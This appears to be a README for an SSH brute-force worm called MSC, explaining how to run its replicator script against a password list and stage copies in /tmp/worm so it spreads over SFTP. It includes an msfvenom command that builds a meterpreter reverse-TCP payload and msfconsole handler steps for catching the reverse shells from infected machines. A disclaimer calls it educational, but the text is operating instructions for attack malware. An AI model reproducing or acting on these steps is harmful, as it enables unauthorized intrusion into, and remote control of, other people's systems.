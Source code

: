 MSC (Major SSH Crisis)

FOR EDUCATIONAL PURPOSES ONLY!

Welcome to the SSH brute force worm MSC! Make sure to review code and make neccessary changes to your needs.

Example command to run the script:
python3 replicator.py passwords.txt

As well, inspect the code and make sure scripts (or copies) are located in a /tmp/worm/ directory so the SFTP exchange is successful.

To execute a reverse shell payload, make sure the payload or a copy of the payload is in the /tmp/worm directory. In replicator.py, our example payload is "gotcha".
To create a payload use the following command:
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f elf > file_name.elf

Finally, to catch reverse shells executed by the worm, make sure to run a msfconsole meterpreter. Use exploit/multi/handler, set payload to linux/x86/meterpreter/reverse_tcp, 
set LHOST and LPORT, and set ExitOnSession to false. When you are ready to listen for incoming connections, use exploit -j from the module command line, use sessions command 
to navigate multiple sessions. Sessions -h for help! When exiting a shell, use the command background from the meterpreter line so the session is not terminated. 

